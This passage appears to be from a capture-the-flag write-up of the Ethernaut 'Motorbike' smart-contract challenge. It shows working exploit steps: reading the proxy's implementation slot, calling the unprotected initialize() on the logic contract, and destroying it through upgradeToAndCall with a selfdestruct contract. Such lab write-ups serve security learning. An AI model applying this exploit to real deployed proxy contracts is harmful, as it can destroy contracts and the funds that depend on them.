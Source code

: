 That’s it !! We are now the admin of the proxy contract.

# 25. Motorbike

 To destroy the **Engine** contract we have to call `upgradeToAndCall()` with address of a contract having a function implementing selfdestruct. In the data param we will pass the signature of the function implementing selfdestruct. Googling about the **Intializable** contract and the initializer modifier I found out that the checks of the initializer modifier can be bypassed if the `initialize()` function of the **Engine** contract is called directly and not through the **Motorbike** proxy contract. For this we need the address of the **Engine** contract. From the constructor of the **Motorbike** contract it is clear that the address of the logic contract is stored in the **_IMPLEMENTATION_SLOT**. Let’s get that value.

```jsx
> await web3.eth.getStorageAt("0x51d7F75fd2876D8Bb5Eb9CB7B39Cdf3f16837079", 
"0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
< '0x000000000000000000000000218d0e62641a2e1b3d7f72dee3b77ff29c3f7f7e'
```

Now we can use remix to load the contract at that address and call the initialize function, after that we will become the upgrader of the contract. Let’s quickly deploy a contract having a function implementing selfdestuct.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.0/contracts/token/ERC20/IERC20.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.0/contracts/token/ERC20/ERC20.sol";

contract Test {
    constructor() public {}

    function getAbi() public pure returns (bytes memory) {
        return abi.encodeWithSignature("forDestruction()");
    }

    function forDestruction() public {
        selfdestruct(payable(address(this)));
    }
}
```

From remix we will call the `upgradeToAndCall()` with address of the new contract as the first argument and signature of `forDestruction()` as the second argument. That’s it the **Engine** contract is destroyed!